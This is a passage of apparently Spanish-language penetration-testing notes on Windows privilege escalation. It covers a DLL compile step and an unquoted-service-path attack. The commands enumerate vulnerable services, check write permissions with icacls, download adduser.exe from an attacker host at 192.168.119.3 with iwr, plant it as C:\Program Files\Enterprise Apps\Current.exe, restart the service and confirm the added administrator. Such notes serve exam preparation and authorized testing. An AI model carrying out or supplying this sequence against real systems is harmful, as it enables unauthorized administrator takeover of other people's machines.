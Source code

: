 ```c
 return TRUE;
}
```
```sh
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```
## Unquoted Service Paths
```cmd
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
Name State PathName
---- ----- --------
...
GammaService Stopped C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
En este caso es un vector de ataque porque no tiene comillas
```cmd
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
Name PathName 
... 
GammaService C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
El camino a recorrer
```cmd
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
Tenemos acceso a este directorio

```cmd
icacls "C:\Program Files\Enterprise Apps"
C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
BUILTIN\Administrators:(OI)(CI)(F)
BUILTIN\Users:(OI)(CI)(RX,W)   <-
 CREATOR OWNER:(OI)(CI)(IO)(F)
APPLICATION PACKAGE AUTHORITY\ALL APPLICATION 
PACKAGES:(OI)(CI)(RX)
 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED 
APPLICATION PACKAGES:(OI)(CI)(RX)
Successfully processed 1 files; Failed processing 0 files
```

```cmd
iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'


Start-Service GammaService
net user
net localgroup administrators
```
